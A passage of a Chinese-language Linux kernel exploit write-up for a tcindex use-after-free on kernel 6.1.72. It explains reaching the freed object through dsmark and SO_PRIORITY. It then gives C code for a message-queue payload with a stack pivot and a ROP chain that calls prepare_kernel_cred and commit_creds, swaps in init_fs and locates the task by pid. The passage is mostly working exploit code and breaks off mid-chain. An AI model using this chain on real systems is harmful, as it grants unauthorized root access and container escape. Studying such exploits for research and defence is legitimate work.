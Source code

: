 ```c
	call_rcu(&ifa->rcu_head, inet_rcu_free_ifa);
}
```

## rop chain

最后的最后，要再次UAF触发tcindex的enqueue，需要在外面套一层[dsmark](https://elixir.bootlin.com/linux/v6.1.72/source/net/sched/sch_dsmark.c#L237)始祖，通过[SO_PRIORITY](https://elixir.bootlin.com/linux/v6.1.72/source/net/core/sock.c#L1209)来指定优先级即可到最终的res。参考[corjail](https://syst3mfailure.io/corjail/)的rop，提权后`find_task_by_vpid`找到task_struct后切换新的fs_struct即可。但需要注意下解决在`__dev_queue_xmit`中的[rcu_read_lock_bh](https://elixir.bootlin.com/linux/v6.1.72/source/net/core/dev.c#L4216)，解除对应的BH和rcu_read_lock，抢占计数减1的BUG：

```c
    kernel_offset = leaked_inet_rcu_free_ifa - 0xffffffff81e3b5d0;
    memset(buf, 0, sizeof(buf));
    memset(&msg, 0, sizeof(msg));

    msg.mtype = 3;
    *(uint64_t *)(msg.mtext) = kernel_offset + 0xffffffff81c77562; // enqueue: push rsi ; jmp qword ptr [rsi + 0x66]
    *(uint64_t *)(msg.mtext + 32) = 0; // stab
    *(uint32_t *)(msg.mtext + 168) = 0; // q.len
    *(uint64_t *)(msg.mtext + 0x66) = kernel_offset + 0xffffffff8112af1e; // pop rsp ; pop r15 ; ret
    *(uint64_t *)(msg.mtext + 8) = kernel_offset + 0xffffffff8108bbd8; // add rsp, 0xb0 ; jmp 0xffffffff82404c80

    rop = (uint64_t *)(msg.mtext + 0xc0);
    // rcu_read_lock_bh()
    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = kernel_offset + 0xffffffff81d435bd;
    *rop++ = kernel_offset + 0xffffffff8103e8a8; // pop rsi ; ret
    *rop++ = 0x200;
    *rop++ = kernel_offset + 0xffffffff811941a0; // __local_bh_enable_ip(_THIS_IP_, SOFTIRQ_DISABLE_OFFSET)

    // rcu_read_unlock()
    *rop++ = kernel_offset + 0xffffffff8120e350; // __rcu_read_unlock

    // BUG: scheduling while atomic: poc/224/0x00000002
    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = 1;
    *rop++ = kernel_offset + 0xffffffff811c2d20; // preempt_count_sub

    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = 0;
    *rop++ = kernel_offset + 0xffffffff811bb740; // prepare_kernel_cred

    *rop++ = kernel_offset + 0xffffffff8108ef2b; // pop rcx ; ret
    *rop++ = 0;
    *rop++ = kernel_offset + 0xffffffff82068a2b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404c80
    *rop++ = kernel_offset + 0xffffffff811bb490; // commit_creds

    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = kernel_offset + 0xffffffff837b1f20; // &init_fs
    *rop++ = kernel_offset + 0xffffffff8144b900; // copy_fs_struct
    *rop++ = kernel_offset + 0xffffffff811d9b0c; // push rax ; pop rbx ; jmp 0xffffffff82404c80

    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = getpid();
    *rop++ = kernel_offset + 0xffffffff811b1e60; // find_task_by_vpid

```